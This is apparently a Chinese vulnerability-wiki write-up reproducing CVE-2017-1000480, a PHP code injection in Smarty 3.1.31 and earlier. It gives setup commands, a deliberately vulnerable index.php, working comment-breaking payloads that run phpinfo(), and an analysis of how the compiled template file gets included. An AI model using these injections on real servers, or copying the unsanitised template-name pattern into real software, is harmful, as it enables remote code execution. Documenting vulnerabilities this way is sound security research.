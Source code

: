 （CVE-2017-1000480）Smarty\<=3.1.31 命令执行RCE
===============================================

一、漏洞简介
------------

在不清理模板名称的自定义资源上调用fetch（）或display（）函数时，3.1.32之前的Smarty
3容易受到PHP代码注入的攻击。

二、漏洞影响
------------

Smarty\<=3.1.31、3.1.32-dev

三、复现过程
------------

### 1、搭建环境

测试环境为： PHP5.6.40+Apache2+Smarty3.1.31+Debian9

    ➜  html mkdir smarty
    ➜  html cd smarty
    ➜  smarty mkdir cache compile templates
    ➜  smarty composer require smarty/smarty -v
    ➜  smarty sed -i -e 's/\^3.1/3.1.31/g' composer.json
    ➜  smarty composer update
    ➜  smarty sudo chmod -R 777 .

/var/www/html/smarty/index.php 如下：

    <?php
    require './vendor/autoload.php';

    class Smarty_Resource_Widget extends Smarty_Resource_Custom
    {
        protected function fetch($name, &$source, &$mtime)
        {
            $template = "Smarty <=3.1.31 RCE (CVE-2017-1000480)";
            $source = $template;
            $mtime = time();
            return 'mochazz';
        }
    }

    $smarty = new Smarty();
    $smarty->setCacheDir('cache');
    $smarty->setCompileDir('compile');
    $smarty->setTemplateDir('templates');

    $my_security_policy = new Smarty_Security($smarty);
    $smarty->enableSecurity($my_security_policy);
    $smarty->registerResource('username', new Smarty_Resource_Widget());
    $smarty->display('username:'.$_GET['mochazz']);

    ?>

### 2、漏洞分析

具体攻击 payload 如下：

    http://0-sec.org/index.php?mochazz=*/phpinfo();/*

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-1000480)Smarty<=3.1.31命令执行RCE/media/rId26.jpg)

我们直接从 display 方法开始跟进，会发现其最终会调用 render 方法。在
render
方法分别进行了：生成compile文件名、写入compile文件并包含两个操作。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-1000480)Smarty<=3.1.31命令执行RCE/media/rId27.jpg)

在第一个操作：生成compile文件名时，我们传入 display 的参数会影响最终的
compile 文件名。例如下面两个 payload 生成的文件名是不一样的。

    # 代码：$smarty->display('username:'.$_GET['mochazz']);

    # payload1：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();/*
    4f97532c32c10229713a39421c918cf16663bf6e_0.username.*.php

    # payload2：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//
    1e95a2d156a7edd4f6130643849a588dce4acb27_0.username.phpinfo();.php

这是因为 compile 文件名中，有一部分由 basename(\$source-\>name)
决定，这部分就是我们传入的 mochazz 参数。使用上面第一个 payload
时，文件名就会包含 *号。在 Linux 系统下，文件名允许包含* 号，但是
Windows 却不允许，这也是网络上部分文章说这个漏洞无法在 Windows
平台下利用。但是我们使用第二个 payload ，两个平台就都可以利用。

我们接着看第二个操作：写入 compile 文件并包含。首先，写入 compile
文件中的内容包含模板路径（即下图最后一行代码
\$\_template-\>source-\>filepath ），这个模板路径就是我们传入 display
方法的参数。虽然该参数被注释包裹，但是我们可以用 \*/ 闭合。写入 compile
文件，程序就开始包含该文件，最终导致代码执行（下图第137行）。

image
